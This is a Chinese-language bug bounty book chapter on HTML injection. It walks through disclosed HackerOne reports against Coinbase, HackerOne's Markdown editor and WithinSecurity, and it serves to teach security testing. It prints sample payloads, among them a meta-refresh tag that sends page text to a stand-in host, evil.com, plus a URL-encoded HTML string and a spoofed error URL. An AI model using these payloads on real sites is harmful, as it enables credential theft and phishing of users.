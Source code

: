 # 五、HTML 注入

## 描述

超文本标记语言（HTML）注入有时也被称为虚拟污染。 这实际上是一个由站点造成的攻击，该站点允许恶意用户向其 Web 页面注入 HTML，并且没有合理处理用户输入。 换句话说，HTML 注入漏洞是由接收 HTML 引起的，通常通过一些之后会呈现在页面的表单输入。 这个漏洞是独立的，不同于注入 Javascript，VBscript 等。

由于 HTML 是用于定义网页结构的语言，如果攻击者可以注入 HTML，它们基本上可以改变浏览器呈现的内容。 有时，这可能会导致页面外观的完全改变，或在其他情况下，创建表单来欺骗用户，例如，如果你可以注入 HTML，你也许能够将 `<form>` 标签添加到页面，要求用户重新输入他们的用户名和密码。 然而，当提交此表单时，它实际上将信息发送给攻击者。

## 示例

### 1\. Coinbase 评论

难度：低

URL：`coinbase.com/apps`

报告链接：`https://hackerone.com/reports/104543`

报告日期：2015.12.10

奖金：$200

描述：

对于此漏洞，报告者识别出 Coinbase 在呈现文本时，实际上在解码 URI 的编码值。 对于那些不熟悉它的人（我在写这篇文章的时候），URI 中的字符是保留的或未保留的。 根据维基百科，保留字是有时有特殊意义的字符，如`/`和`&`。 未保留的字符是没有任何特殊意义的字符，通常只是字母。

因此，当字符被 URI 编码时，它将按照 ASCII 转换为其字节值，并以百分号（`%`）开头。 所以，`/`变成`%2F`，`&`成为`%26`。 另外，ASCII 是一种在互联网上最常见的编码，直到 UTF-8 出现，它是另一种编码类型。 现在，回到我们的例子，如果攻击者输入 HTML：

```html
<h1>This is a test</h1>
```

Coinbase 实际上会将其渲染为纯文本，就像你上面看到的那样。但是，如果用户提交了 URL 编码字符，像这样：

```
%3C%68%31%3E%54%68%69%73%20%69%73%20%61%20%74%65%73%74%3C%2F%68%31%3E
```

Coinbase 灰机上会解码该字符串，并渲染相应的字符，像这样：

```
This is a test
```

使用它，报告者演示了如何提交带有用户名和密码字段的 HTML 表单，Coinbase 会渲染他。如果这个用户是恶意的，Coinbase 就会渲染一个表单，它将值提交给恶意网站来捕获凭据（假设人们填充并提交了表单）。

> 重要结论

> 当你测试一个站点时，要检查它如何处理不同类型的输入，包括纯文本和编码文本。特别要注意一些接受 URI 编码值，例如`%2f`，并渲染其解码值的站点，这里是`/`。虽然我们不知道这个例子中，黑客在想什么，它们可能尝试了 URI 编码限制字符，并注意到 Coinbase 会解码它们。之后他们更一步 URL 编码了所有字符。

> <http://quick-encoder.com/url> 是一个不错的 URL 编码器。你在使用时会注意到，它告诉你非限制字符不需要编码，并且提供了编码 URL 安全字符的选项。这就是获取用于 COinbase 的相同编码字符串的方式。

### 2\. HackerOne 无意识 HTML 包含

难度：中

URL：hackerone.com

报告链接：<https://hackerone.com/reports/112935>

报告日期：2016.1.26

奖金：$500

描述：

在读完 Yahoo XSS 的描述（第七章示例四），我对文本编辑器中的 HTML 渲染测试产生了兴趣。这包含玩转 HackerOne 的 Markdown 编辑器，在图像标签中输入一些类似`ismap= "yyy=xxx"`和`"'test"`的东西。这样做的时候，我注意到，编辑器会在双引号里面包含一个单引号 - 这叫做悬置引号。

那个时候，我并没有真正理解它的含义。我知道如果你在某个地方注入另一个单引号，两个引号就会被浏览器一起解析，浏览器会将它们之间的内容视为一个 HTML 元素，例如：

```html
<h1>This is a test</h1><p class="some class">some content</p>'
```

使用这个例子，如果你打算注入一个 Meta 标签：

```html
<meta http-equiv="refresh" content='0; url=https://evil.com/log.php?text=
```

浏览器会提交两个引号之间的任何东西。现在，结果是，这个已经在 HackerOne 的 [#110578](https://hackerone.com/reports/110578) 报告中由 [intidc](https://hackerone.com/intidc) 公开。看到它公开之后，我有一点失望。

根据 HackerOne，它们依赖于 Redcarpet（一个用于 Markdown 处理的 Ruby 库）的实现，来转义任何 Markdown 输入的 HTML 输出，随后它会通过 React 组件的`dangerouslySetInnerHTML`直接传递给 HTML DOM（也就是页面）。此外，React 是一个 JavaScript 库，可用于动态更新 Web 页面的内容，而不需要重新加载页面。

DOM 指代用于有效 HTML 以及 格式良好的 XML 的应用程序接口。本质上，根据维基百科，DOM 是跨平台并且语言无关的约定，用于展示 HTML、XHTML 和 XMl 中的对象，并与其交互。

在 HackerOne 的实现中，它们并没有合理转义 HTML 输出，这会导致潜在的漏洞。现在，也就是说，查看披露，我觉得我应该测试一下心得代码。我返回并测试了这个：

```md
[test](http://www.torontowebsitedeveloper.com "test ismap="alert xss" yyy="test"\ ")
```

它会变成

```html
<a title="'test" ismap="alert xss" yyy="test" &#39; ref="http://www.toronotwebsi\ tedeveloper.com">test</a>
```

你可以看到，我能够将一堆 HTML 注入到`<a>`标签中。所以，HackerOne 回滚了该修复版本，并重新开始转义单引号了。

> 重要结论

> 仅仅是代码被更新了，并不意味着一些东西修复了，而是还要测试一下。当部署了变更之后，同时意味着新的代码也可能存在漏洞。

> 此外，如果你觉得有什么不对，一定要深入挖掘。我知道一开始的尾后引号可能是个问题，但是我不知道如何利用它，所以我停止了。我本应该继续的。我实际上通过阅读 XSS Jigsaw 的 <blog.innerht.ml> 了解了 Meta 刷新利用（请见“资源”一张），但是这是后事了。

### 3\. WithinSecurity 内容伪造

难度：低

URL：`withinsecurity.com/wp-login.php`

报告链接：`https://hackerone.com/reports/111094`

报告日期：2015.1.16

奖金：$250

描述：

虽然内容伪造实际上和 HTML 注入是不同的漏洞，我也将其包含在这里，因为它们拥有相似的本质，攻击者让一个站点渲染它们选择的内容。

WithinSecurity 构建在 WordPress 平台之上，它包含登录页面`withinsecurity.com/wp-login.php`（这个站点已经合并到了 HackerOne 的核心平台中）。攻击者注意到了在登录过程中，如果发生了错误，WithinSecurity 就会渲染`access_denied`，同时对应 URL 中的`error`参数：

```
https://withinsecurity.com/wp-login.php?error=access_denied
```

注意到了这个，攻击者尝试修改`error`参数，并发现无论参数传递了什么值，都会被站点渲染为错误信息的一部分，并展示给用户。这里是所用的示例：

```
https://withinsecurity.com/wp-login.php?error=Your%20account%20has%20%hacked
```

![](img/5-3-1.jpg)

WithinSecurity 内容伪造

这里的关键是注意到 URL 中的参数在页面中渲染。虽然他们没有解释，我可以假设攻击者注意到了`access_denied`展示在了页面上，但是也包含在 URL 中。这里他们也报告了，漏洞也可以由一个简单的测试，修改`access_denied`参数来找到。

> 重要结论

> 时刻关注传递并且渲染为站点内容的 URL 参数。他们可能就是攻击者的机会，来欺骗受害者来执行一些恶意动作。

## 总结

HTML 注入向站点和开发者展示了漏洞，因为他可以用于误导用户，并且欺骗它们来提交一些敏感信息，或者浏览恶意网站。就像钓鱼攻击那样。

发现这些漏洞并不是通过仅仅提交 HTML，而是弄清楚站点如何渲染你的输入文本，像是 URI 编码的字符。而且，虽然内容伪造并不和 HTML 注入完全一样，它也是类似的，因为它涉及让一些输入在 HTML 页面中反映给受害者。攻击者应该仔细寻找机会，来操纵 URL 参数，并让它们在站点上渲染。
